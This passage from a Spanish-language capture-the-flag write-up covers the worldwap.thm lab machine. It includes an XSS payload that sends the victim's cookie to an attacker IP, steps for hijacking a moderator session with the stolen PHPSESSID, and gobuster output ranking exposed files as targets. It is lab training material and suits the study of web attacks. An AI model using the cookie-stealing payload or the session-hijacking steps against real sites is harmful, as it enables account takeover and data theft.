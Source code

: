 ````<script>document.location='http://10.10.84.171:4444/XSS/grabber.php?c='+document.cookie</script>````
Abre DevTools → Application → Cookies → selecciona el host (worldwap.thm o login.worldwap.thm según el caso).

Crea/edita la cookie PHPSESSID con el valor capturado.

Recarga la página; entrarás con la sesión asociada a esa cookie (en mi caso: Moderator).

<img width="1348" height="707" alt="login en la pagina como moderador primera flag" src="https://github.com/user-attachments/assets/c6e0f3be-028b-4f60-aaac-35c53b29f615" />

## 🔎 Paso 11: Resultados de gobuster en http://worldwap.thm:8081 (Markdown listo para README)

<img width="1141" height="507" alt="gobuster puerto 8081" src="https://github.com/user-attachments/assets/012fb229-f18e-4fbd-bbdd-7dd14ff06fde" />


### Salida relevante (resumen)

/admin.py               (Status: 200) [Size: 5537]

/assets/                (Status: 301) [--> http://worldwap.thm:8081/assets/]

/block.php              (Status: 200)

/change_password.php    (Status: 302) [--> login.php]

/chat.php               (Status: 302) [--> login.php]

/clear.php              (Status: 200)

/db.php                 (Status: 200)

/index.php              (Status: 200)

/javascript/            (Status: 301) [--> http://worldwap.thm:8081/javascript/]

/login.php              (Status: 200) [Size: 3108]

/logout.php             (Status: 302) [--> login.php]

/logs.txt               (Status: 200)

...

### ✅ Observaciones importantes

/admin.py (200, tamaño grande) — archivo Python accesible vía HTTP. Revisarlo es prioritario: puede contener código fuente (credenciales, lógica de autenticación, rutas ocultas, consultas SQL).

/db.php (200) — punto a inspeccionar: puede exponer información de la base de datos o permitir operaciones peligrosas si es mal diseñado.

/clear.php (200) — su nombre sugiere acción de limpieza/reset; puede permitir borrar logs o resetear datos; probar con cuidado.

/logs.txt (200) — archivo con potencial info leak (errores, credenciales, paths).

/change_password.php, /chat.php, /logout.php redirigen a login.php si no estás autenticado — indican funcionalidad existente que debemos inspeccionar tras obtener sesión.

/assets/ y /javascript/ contienen ficheros estáticos donde puede haber pistas (endpoints, URLs, comentarios).

````